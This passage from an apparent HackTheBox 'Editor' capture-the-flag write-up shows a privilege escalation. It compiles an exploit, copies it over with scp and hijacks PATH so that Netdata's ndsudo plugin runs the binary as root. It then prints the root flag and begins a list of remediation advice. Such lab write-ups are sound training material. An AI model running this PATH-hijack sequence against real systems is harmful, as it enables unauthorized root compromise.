 2. Compile on local attacker machine:

```bash
gcc exploit.c -o nvme
```

3. Transfer to the target (as `oliver`):

```bash
scp nvme oliver@editor.htb:/tmp
```

4. On the target:

```bash
cd /tmp
chmod +x nvme
# Prepend /tmp to PATH so ndsudo will execute our binary
export PATH=/tmp:$PATH

# Trigger the vulnerable plugin so it runs our binary as root
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

Because the Netdata `ndsudo` plugin executes binaries without correctly sanitizing the `PATH` (or due to how it performs lookups), the `nvme` binary is executed with root privileges and spawns a root shell.

---

## Root Access & Flag

After successful exploitation:

```bash
whoami
# root

cat /root/root.txt
# 6d4d6c2368c3210994e624647c93119f
```

You now have full system compromise.

---

## Remediation & Lessons Learned

### Remediation

* **Update XWiki** to a version >= 15.10.11 immediately to remove CVE-2025-24893 (or apply vendor patches).
* **Harden Netdata / plugins**:

  * Remove SUID bits from plugins or ensure they do not execute external binaries based on a writable `PATH`.
  * Run monitoring agents with least privilege; avoid root unless required.
* **Secrets management**:
